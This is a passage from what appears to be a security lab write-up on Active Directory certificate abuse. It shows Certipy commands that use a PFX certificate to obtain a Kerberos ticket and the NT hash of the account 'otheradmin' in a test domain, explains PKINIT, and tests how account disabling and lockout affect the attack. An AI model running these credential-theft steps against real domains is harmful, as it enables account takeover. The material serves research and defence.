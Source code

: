 Using Certipy, we specify the pfx with the `-pfx` parameter:
```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx otheradmin.pfx -dc-ip 172.17.199.253 -domain testcorp.local -username otheradmin
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: otheradmin@testcorp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'otheradmin.ccache'
[*] Trying to retrieve NT hash for 'otheradmin'
[*] Got hash for 'otheradmin@testcorp.local': aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71
```

This results in the NTLM hash for `otheradmin@testcorp.local`, great! But as the above diagram shows, this only should work if `PKINIT` is available. So what is `PKNINIT`?

## PKINIT
PKINIT (Public Key Cryptography for Initial Authentication in Kerberos) is an extension to the Kerberos authentication protocol that allows the use of public key cryptography (such as RSA or elliptic curve cryptography) during the initial authentication process, instead of the traditional method that relies solely on symmetric key cryptography (shared secrets).

In the standard Kerberos process, a client authenticates to the Key Distribution Center (KDC) by using a pre-shared secret key (usually a password) and encrypting data with that key. PKINIT allows the client to authenticate using a digital certificate (public key infrastructure, PKI). This means the client can use public key cryptography to authenticate without needing to exchange passwords or rely on symmetric keys. PKINIT is commonly used for smart card authentication, where the user’s private key is stored securely on the card.

## KDC_ERR_CLIENT_REVOKED
Now, let's disable the user `OtherAdmin` and see if we can still get the NT hash:
```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx otheradmin.pfx -dc-ip 172.17.199.253 -domain testcorp.local -username otheradmin
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: otheradmin@testcorp.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```
This seems to resolve into the `KDC_ERR_CLIENT_REVOKED` error. Let's enable the account again and set a threshold of 2 invalid attempts. Now the account gets locked for 1 minute. We can confirm this with trying to authenticate as the user with [NetExec](https://github.com/Pennyw0rth/NetExec) to LDAP:
```sh
┌──(kali㉿kali)-[~]
└─$ nxc ldap 172.17.199.253 -u otheradmin -p "Password123"
SMB         172.17.199.253  445    WIN-SUSL647VIKP  [*] Windows 10.0 Build 26100 x64 (name:WIN-SUSL647VIKP) (domain:testcorp.local) (signing:True) (SMBv1:False)                                                                                                                                        
LDAP        172.17.199.253  389    WIN-SUSL647VIKP  [-] testcorp.local\otheradmin:Password123 USER_ACCOUNT_LOCKED
```
